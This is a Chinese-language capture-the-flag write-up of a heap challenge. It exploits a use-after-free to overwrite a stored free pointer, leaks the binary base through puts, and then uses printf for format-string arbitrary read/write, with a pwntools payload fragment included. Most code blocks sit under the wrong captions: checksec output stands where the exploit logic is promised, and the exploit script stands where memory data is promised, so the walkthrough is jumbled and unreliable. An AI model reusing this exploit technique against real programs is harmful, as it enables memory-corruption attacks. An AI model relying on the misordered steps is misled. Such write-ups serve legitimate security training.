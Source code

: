 程序很简单就 3 个操作，create,delete,quit

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibQkTyzibcAXgojWcNHB0MCYAHIeKFCVIMwpePia2SLWkicjbt3tDlkgVxibBx6TW7w8IEicvXRvFVGWUg/640?wx_fmt=jpeg)

漏洞点

在 delete 操作上发现调用 free 指针函数释放结构后没有置结构指针为 NULL, 这样就能实现 UAF， 如下图

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibQkTyzibcAXgojWcNHB0MCYbOEpq8R7WPnSDW2TIwkRd5vhv48tjSx86YYfxwxOo8cuGQI6YRrtJQ/640?wx_fmt=jpeg)

create 功能会先申请 0x20 字节的内存堆块存储结构，如果输入的字符串长度大于 0xf，则另外申请指定长度的空间存储数据，否则存储在之前申请的 0x20 字节的前 16 字节处，在最后，会将相关 free 函数的地址存储在堆存储结构的后八字节处

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibQkTyzibcAXgojWcNHB0MCYlYlpgoBvLRnFuRMVOmHd2Xa8R933ia3JIhNMGBPaXe5leuGa0r4icT2w/640?wx_fmt=jpeg)

在 create 时全局结构指向我们申请的内存

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibQkTyzibcAXgojWcNHB0MCYW0p8VYNExWD68Mww45ric3lvS5aLZZDZJz2V6afHKEmib8Hwxlr1oFkA/640?wx_fmt=jpeg)

这样就可以恶意构造结构数据, 利用 uaf 覆盖旧数据结果的函数指针，打印出函数地址，泄露出二进制 base 基址，主要逻辑如下:

```
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

此时执行 delete 操作，也就执行了

```
create(4 创建old\_chunk0 但是程序占位 old\_chunk0\_size=0x30 申请0x20
create(4 创建old\_chunk1 但是程序占位 old\_chunk1\_size=0x30 申请0x20
释放chunk1
释放chunk0
create(0x20 创建 chunk0 占位 old\_chunk0,占位 old\_chunk1
            创建 chunk1 覆盖 old\_chunk1->data->free 为 puts
```

打印出了 puts\_addr 地址，然后通过计算偏移得到二进制基址, 如下:

```
free(ptr) -> puts(ptr->buffer和后面覆盖的puts地址)
```

然后利用二进制基址算出二进制自带的 printf 真实地址，再次利用格式化字符漏洞实现任意地址读写。如下是得到 printf 真实地址 printf\_addr 后利用格式化字符漏洞实现任意地址读写的测试过程，我们输出 10 个 %p 也就打印了堆栈前几个数据值。然后找到了 arg9 为我们能够控制的数据，所以利用脚本里 printf 输出参数变成了 “%9$p”，读取第九个参数。

```
bin\_base\_addr = puts\_addr - offset
```

IDA 调试时内存数据为如下:

```
delete(0)
payload = 'a%p%p%p%p%p%p%p%p%p%p'.ljust(0x18, '#') + p64(printf\_addr)  # 覆盖chunk1的 free函数-> printf
create(0x20, payload)
p.recvuntil("quit")
p.send("delete ")
p.recvuntil("id:")
p.send(str(1) + '\\n')
p.recvuntil("?:")
p.send("yes.1111" + p64(addr) + "\\n")  # 触发 printf漏洞

p.recvuntil('a')
data = p.recvuntil('####')\[:-4\]
```
